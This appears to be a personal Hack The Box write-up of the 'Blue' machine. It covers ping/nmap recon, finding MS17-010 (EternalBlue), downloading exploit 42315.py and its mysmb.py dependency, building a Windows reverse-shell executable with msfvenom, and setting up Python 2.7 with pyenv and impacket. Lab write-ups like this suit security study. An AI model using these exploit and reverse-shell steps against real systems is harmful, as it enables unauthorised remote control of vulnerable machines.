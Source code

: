 # Blue
Name: Blue
Date:  22/09/2022 - With Metasploit &
Difficulty:  Easy
Goals:  OSCP Prep, rewrite a python exploit
Learnt: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py exists and I am grateful to Tyler from https://www.wirebiters.com/

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 
![concat](canonlyconcatstr.png)

I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

## Metapsploit
Just for sake of completion
![](metasploit.png)


## Returing to script this

After failing for hours months ago trying to covert python2 to python3 managing dependency hell seemed insane. Months ago I really want to do it in python3, but realistically for the future of python and exploits, why? So I decided to find modern solutions from others, [0xdf](https://0xdf.gitlab.io/2021/05/11/htb-blue.html) demonstrates python virtual environments something I never real knew existed or played with, which would require alot of building for not much pay off for me. I then came across https://www.wirebiters.com/hack-the-box-htb-walkthrough-blue-with-bonus-kali-initial-setup/.. where he list a Offensive Securirty repository with all the classes for all the exploits of all of searchsploit. This was like being kicked in the balls and being handed  amount of X desirable good/service tickets... WTF.. probably the must face slapping wget of my life.
```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
```

Then after much researching!
```bash
sudo apt install -y build-essential libssl-dev zlib1g-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev xz-utils tk-dev libffi-dev liblzma-dev python3-openssl git
wait
curl https://pyenv.run | bash
wait
echo '' >> ~/.zshrc
echo '# Python 2.7 required!' >> ~/.zshrc
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.zshrc
echo 'export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.zshrc
echo -e 'if command -v pyenv 1>/dev/null 2>&1; then\n  eval "$(pyenv init --path)"\nfi' >> ~/.zshrc
echo '' >> ~/.zshrc

exec $SHELL


#The below is the work of [ben leeyr](https://benleeyr.wordpress.com/2022/01/30/pyenv-installation-on-kali/) . Only changes is to use `pip2` to get `impacket` and `init`
pyenv global 2.7.18
pyenv global system
pyenv init
```
add to your shell's .rc the below is for `zsh`'s `.zshrc`
```bash
# Load pyenv automatically by appending
# the following to 
~/.zprofile (for login shells)
and ~/.zshrc (for interactive shells) :

export PYENV_ROOT="$HOME/.pyenv"
command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"
eval "$(pyenv init -)"pyenv 
```
Then
```bash
pyenv shell 2.7.18
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2 get-pip.py
sudo pip2 install -U setuptools
sudo pip2 install impacket
```
![](rootroot.png)
